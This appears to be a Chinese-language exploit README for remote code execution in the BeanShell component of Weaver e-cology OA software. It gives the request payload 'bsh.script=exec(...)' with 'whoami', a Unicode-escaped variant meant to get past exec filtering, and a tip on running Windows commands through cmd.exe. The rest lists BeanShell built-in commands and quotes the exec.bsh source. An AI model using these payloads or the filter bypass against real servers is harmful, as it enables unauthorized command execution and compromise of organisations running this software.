







# 泛微e-cology OA Beanshell组件远程代码执行


## Windows

## Linux



## Ps
```
检测目标系统os.name（因为目标系统是windows的话，执行set等命令，需要手动敲cmd.exe /c set）
使用Unicode绕过exec过滤，部分站点
```
## Payload
```
bsh.script=exec('whoami');

>>>>unicode bypass

bsh.script=\u0065\u0078\u0065\u0063("whoami");

```

## Useful BeanShell Commands

```
In the previous example we used a convenient "built-in" BeanShell command called print(), to display values. 

print() does pretty much the same thing as System.out.println() except that it insures that the output always goes to the command line. print() also displays some types of objects (such as arrays) more verbosely than Java would. 

Another related command is show(), which toggles on and off automatic display of the result of every line you type.
```
#### Here are a few other examples of BeanShell commands:
```
source(), run() - Read a bsh script into this interpreter, or run it in a new interpreter
frame() - Display a GUI component in a Frame or JFrame.
load(), save() - Load or save serializable objects to a file.
cd(), cat(), dir(), pwd(), etc. - Unix-like shell commands
exec() - Run a native application
javap() - Print the methods and fields of an object, similar to the output of the Java javap command.
setAccessibility() - Turn on unrestricted access to private and protected components.
```


## bsh-2.0b4.jar command
`/Users/ale/Desktop/bsh/weaver/WEB-INF/lib/bsh/commands`

```
.//object.bsh
.//rm.bsh
.//run.bsh
.//print.bsh
.//pwd.bsh
.//error.bsh
.//cat.bsh
.//setClassPath.bsh
.//setAccessibility.bsh
.//exec.bsh
.//setFont.bsh
.//dirname.bsh
.//exit.bsh
.//source.bsh
.//frame.bsh
.//cp.bsh
.//printBanner.bsh
.//browseClass.bsh
.//cd.bsh
.//which.bsh
.//setNameSpace.bsh
.//workspaceEditor.bsh
.//thinBorder.bsh
.//bind.bsh
.//bg.bsh
.//save.bsh
.//fontMenu.bsh
.//getSourceFileInfo.bsh
.//classBrowser.bsh
.//load.bsh
.//javap.bsh
.//addClassPath.bsh
.//server.bsh
.//desktop.bsh
.//importCommands.bsh
.//mv.bsh
.//setStrictJava.bsh
.//eval.bsh
.//dir.class
.//getBshPrompt.bsh
.//unset.bsh
.//show.bsh
.//getResource.bsh
.//reloadClasses.bsh
.//clear.bsh
.//getClass.bsh
.//makeWorkspace.bsh
.//importObject.bsh
.//sourceRelative.bsh
.//getClassPath.bsh
.//pathToFile.bsh
.//setNameCompletion.bsh
.//editor.bsh
.//extend.bsh
.//debug.bsh
```

## for Example : eval.bsh

```
a=5;
eval("b=a*2");
print(b);

>>>
10
```



## exec.bsh
```
cat exec.bsh      

/**
	Start an external application using the Java Runtime exec() method.
	Display any output to the standard BeanShell output using print().
*/

bsh.help.exec = "usage: exec( String arg )";

exec( String arg )
{
	this.proc = Runtime.getRuntime().exec(arg);
	this.din = new DataInputStream( proc.getInputStream() );
	while( (line=din.readLine()) != null )
		print(line);
```


```
1. exec("whoami")

2. this.proc = Runtime.getRuntime().exec("whoami");	
   this.din = new DataInputStream( proc.getInputStream() );
   while( (line=din.readLine()) != null )
   print(line);

```
## 总结
```
./commands/object.bsh
>>> bsh.help.object = "usage: object()";

./commands/rm.bsh
>>> bsh.help.rm = "usage: cd( path )";

./commands/run.bsh
>>> bsh.help.run= "usage: Thread run( filename )";

./commands/run.bsh
>>> 42:	this.bsh.help=extend(bsh.help);

./commands/print.bsh
>>> bsh.help.print = "usage: print( value )";

./commands/cat.bsh
>>> bsh.help.cat = "usage: cat( filename )";

./commands/setClassPath.bsh
>>> bsh.help.setClassPath= "usage: setClassPath( URL [] )";

./commands/exec.bsh
>>> bsh.help.exec = "usage: exec( String arg )";

./commands/setFont.bsh
>>> bsh.help.setFont = "usage: setFont( Component comp, int size )";

./commands/dirname.bsh
>>> bsh.help.cd = "usage: dirname( path )";

./commands/exit.bsh
>>> bsh.help.exit = "usage: exit()";

./commands/source.bsh
>>> bsh.help.source = "usage: source( filename | URL )";

./commands/frame.bsh
>>> bsh.help.frame = "usage: frame( Component component )";

./commands/cp.bsh
>>> bsh.help.cp = "usage: cp( fromFile, toFile )";

./commands/cd.bsh
>>> bsh.help.cd = "usage: cd( path )";

./commands/which.bsh
>>> bsh.help.which= "usage: which( classIdentifier | string | class )";

./commands/setNameSpace.bsh
>>> bsh.help.setNameSpace =

./commands/bg.bsh
>>> bsh.help.run= "usage: Thread bg( filename )";

./commands/save.bsh
>>> bsh.help.save = "usage: save( object, filename )";

./commands/getSourceFileInfo.bsh
>>> bsh.help.getSourceFileInfo = "usage: getSourceFileInfo()";

./commands/load.bsh
>>> bsh.help.load = "usage: load(filename)";

./commands/javap.bsh
>>> bsh.help.javap= "usage: javap( value )";

./commands/addClassPath.bsh
>>> bsh.help.addClassPath= "usage: addClassPath( string | URL )";

./commands/server.bsh
>>> bsh.help.server = "usage: server(int port)";

./commands/importCommands.bsh
>>> bsh.help.importCommands = "usage: importCommands( string )";

./commands/mv.bsh
>>> bsh.help.mv = "usage: mv( fromFile, toFile )";

./commands/eval.bsh
>>> bsh.help.eval = "usage: eval( String expression )";

./commands/unset.bsh
>>> bsh.help.unset = "usage: unset( name )";

./commands/show.bsh
>>> bsh.help.show = "usage: show()";

./commands/getResource.bsh
>>> bsh.help.getResource = "usage: getResource( String name )";

./commands/reloadClasses.bsh
>>> bsh.help.reloadClasses=

./commands/getClass.bsh
>>> bsh.help.getClass= "usage: getClass( String name )";

./commands/importObject.bsh
>>> bsh.help.importObject = "usage: importObject( Object )";

./commands/getClassPath.bsh
>>> bsh.help.getClassPath= "usage: getClassPath()";

./commands/pathToFile.bsh
>>> bsh.help.pathToFile = "usage: File pathToFile( String )";

./commands/setNameCompletion.bsh
>>> bsh.help.setNameCompletion= "usage: setNameCompletion( boolean )";

./commands/editor.bsh
>>> bsh.help.editor = "usage: editor()";

./commands/extend.bsh
>>> bsh.help.extend= "usage: extend( This parent )";

./commands/debug.bsh
>>> bsh.help.debug = "usage: debug()";

```
## 参考链接：

http://www.beanshell.org/manual/bshmanual.html#Executable_scripts_under_Unix

https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg


